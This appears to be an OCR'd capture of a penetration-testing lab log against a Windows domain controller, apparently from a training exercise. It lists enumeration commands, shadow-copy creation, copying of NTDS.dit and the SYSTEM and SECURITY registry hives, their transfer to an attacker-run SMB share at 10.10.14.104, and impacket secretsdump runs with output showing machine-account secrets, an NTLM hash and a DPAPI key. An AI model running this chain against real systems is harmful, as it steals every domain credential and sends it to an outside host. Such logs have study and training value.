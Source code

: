 net localgroup

Aliases for \\ILF-DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
...

net user jmarston

Global Group memberships     *Domain Admins        *Domain Users
                             *Leadership

vssadmin CREATE SHADOW /For=C:

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {f0207516-4f9f-4a59-803b-9c3057cda020}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {425f5873-6c27-4163-9fc4-df0b13893e9b}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

mkdir NTDS

cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit


sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/

cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.14.104\CompData 

locate secretsdump

python /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds ntds.dit local -outputfile ntlm-extract

[-] Either the SYSTEM hive or bootkey is required for local parsing, check help

reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save

move security.save \\10.10.14.104\CompData
move system.save \\10.10.14.104\\CompData
cmd.exe /c move security.save \\10.10.14.104\CompData 
cmd.exe /c move system.save \\10.10.14.104\CompData 

python /usr/share/doc/python3-impacket/examples/secretsdump.py -security security.save -system system.save -ntds ntds.dit local

[-] [Errno 2] No such file or directory: 'ntds.dit'

python /usr/share/doc/python3-impacket/examples/secretsdump.py -security security.save -system system.save -ntds NTDS.dit local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:cc2e14e88c021c1be2da5be9c8c2ead933201bc62e64f7f1608ff9add8aa8442dde0b639c4b9cdaee835dce04ce2ee82936bf8d46f287c6968b58d026fbd396a2e067d3160f430fa7e6c156a04877a0d993420171fa502a6f4fdf9d4defc9bd39fb405b53039ee2bb1c3f111d9942da2c7b723f1037ff535886e6e607179ac73101e88f27aa9adf90b37603670f4b050e9ab7b7ed7b9d12ecba66fc5ad531b78fbb479cda040486cdbb6c1e78c6beaf12cd7ee5d193bacae84a7053884cf48846e6c67fe2d3d56613363b41aeea06ae57e648bf13e2e805a546a8701b337af04182d0bfe8be85631a4e4f4f6db2c6d4e
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:dee81e516d3a5e00502001988abfc069
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x91605a6ced1362b191874d151b7e183e8273c60b